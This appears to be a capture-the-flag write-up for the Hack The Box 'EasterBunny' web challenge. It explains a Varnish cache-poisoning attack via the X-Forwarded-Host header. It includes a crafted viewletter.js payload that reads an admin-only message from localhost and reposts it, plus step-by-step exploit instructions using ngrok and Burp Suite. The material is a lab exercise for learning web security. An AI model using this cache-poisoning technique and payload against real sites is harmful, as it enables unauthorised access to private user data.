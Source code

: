 #  EasterBunny HTB Challenge 

__________________________________________

# EasterBunny

This challenge is about **cache poisoning** vulnerability.

We can write a message to our beloved easter bunny and, if we navigate through the id's in /message/ID or /letters?id=ID there are all the various messages left. 

We can notice that The 3rd message is not reachable and it's the one where the flag is hidden.
If only we were admin we could read the hidden message!!

```js
const isAdmin = (req, res) => {
  return req.ip === '127.0.0.1' && req.cookies['auth'] === authSecret;
};
```

There's a way to do it.
**What if the admin will read it for us and it will repost the hidden message in a new letter?**

### Varnish Cache

Intercept with burpsuite, and the response will show that the server is using **varnish cache**

>Cache are used basically to improve user experience reducing the load on the server and improve the performance of the website storing and serving content that are previously fetched

We know that the server is hitting the cache because in the response we see cache: HIT or MISS
If we add the header X-Forwarded-Host we can reach and hit the cache.

Whenever we send a new message, the server is getting a js file stored in **/static/viewletter.js**.

## Vulnerability and Exploit

We can craft our own viewletter.js file, store locally in a /static/ folder and trick the cache to get our js file instead the one from its server.

The JS script will fetch the hidden message and it will submit the response in a new message from its localhost.
#### crafted viewletter.js

```js
  fetch("http://127.0.0.1/message/3").then((r) => {
    return r.text();
  }).then((x) => {
    fetch("http://127.0.0.1/submit", {
      "headers": {
        "content-type": "application/json"
      },
      "body": x,
      "method": "POST",
    });
  });

```

The script will fetch the /message/3 from the server as it is asking from itself bypassing the "isAdmin" function: then it will submit a new message with the body text taken from the 3rd message

# Exploit steps

1. Make a new folder and name it static `mkdir static`
2. Save the evil **viewletter.js** inside "static" folder
3. Open a ngrok server and a python http.server
4. Intercept a request with Burpsuite made to the endpoint **/letters?id=10** replacing the host with 127.0.0.1 and adding X-Forwarded-Host with the ngrok url.
4. After we get the response, post a new message, navigate to the new message created and we will see the hidden message with the flag!





